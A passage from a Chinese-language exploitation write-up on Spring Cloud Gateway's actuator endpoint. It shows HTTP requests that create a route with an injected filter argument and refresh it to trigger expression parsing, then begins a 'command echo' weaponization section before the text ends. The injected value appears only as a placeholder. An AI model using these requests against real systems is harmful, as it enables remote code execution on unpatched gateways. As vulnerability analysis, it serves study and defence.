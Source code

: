 <br/>

可以随意选择其中的一个`GatewayFilterFactory`，比如利用`Retry`来修改请求包：

```powershell
POST /actuator/gateway/routes/123456 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 181

{
  "id": "1234567",
  "filters": [{
    "name": "Retry",
    "args": {
"a":"payload"
   }
  }],
  "uri": "http://localhost"
}
```

<br/>

请求后显示路由创建成功。可以通过refresh来生效：

```json
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
```

<br/>

成功触发表达式解析：

![img](/assets/PeiQi-Wiki/img/1647573597584-9b9bc011-190f-4562-ac76-9e67d0b7945f.png)



### 武器化一：命令回显

<br/>通过调试发现，在refresh路由时会调用对应`GatewayFilter`的`apply`函数。当成功创建新的路由后，可以通过GET请求获取配置信息：

![img](/assets/PeiQi-Wiki/img/1647573625150-6beef741-5360-4a88-be27-bfbbba9d2664.png)

<br/>回顾前面合法的`GatewayFilter`列表，我们发现存在一个名为`AddResponseHeaderGatewayFilterFactory`的子类：

![img](/assets/PeiQi-Wiki/img/1647573637082-848734d6-27d1-49ba-a286-8b229ccd2796.png)

![img](/assets/PeiQi-Wiki/img/1647573647822-ba74606e-4f36-447c-be21-611899cd401f.png)
